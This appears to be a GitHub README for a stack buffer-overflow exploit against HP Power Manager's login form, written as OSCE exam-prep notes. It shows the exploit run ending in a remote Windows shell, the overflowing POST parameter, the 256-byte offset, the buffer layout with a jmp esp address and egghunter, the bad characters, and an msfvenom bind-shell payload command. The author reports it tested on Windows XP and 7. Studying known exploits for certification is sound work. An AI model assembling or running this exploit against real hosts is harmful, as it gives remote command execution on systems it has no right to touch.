 # HP-Power-Manager

    dev@ubuntu:~# python HPPowerManager.py 192.168.126.209
    [+] Trying to exploit 192.168.126.209
    [+] Sending payload
    [+] Trying to connect to target
    [+] Please wait to thirty seconds...

    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\WINDOWS\system32>

An overflow in the Login of the post request  

    HtmlOnly=true&Login=admin{}&Password=admin&loginButton=Submit+Login

Sending 256 bytes of data will trigger this overflow. 
Was just studying the exploit originally created by ryujin , which you can find here: https://www.exploit-db.com/exploits/10099/  
Have to prep for that OSCE Exam yo!

There was also more bytes that could crash the service which leads to an SEH overflow, however, all the addresses had a nullbyte in them.   
Interestingly, used the nullbyte to help me find the amount of this crash as so:

    crash = "A" * 256
    crash += pack('<L', 0x7608BCCF)
    crash += "B" * 20
    crash += egghunter
    crash += '\x00'

Without the null, I wasn't able to hit my breakpoint after 256 bytes

Just used the same address as ryujin did: 

    Message=  0x7608bccf : jmp esp |  {PAGE_EXECUTE_READ} [MSVCP60.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v6.02.3104.0 (C:\Program Files\HP\Power Manager\MSVCP60.dll)
    
There were no bad characters with the exception of '\x00'

Useful Notes:  
256 bytes to crash the app  
0x7608bccf : jmp esp in MSVCP60.dll  
egghunter : haha  
badchars : \x00  
msfvenom -p windows/shell_bind_tcp LPORT=54321 -n 20 -f python -a x86 --platform windows -b '\x00' -v rekt    

Tested and working on Windows XP, and Windows 7
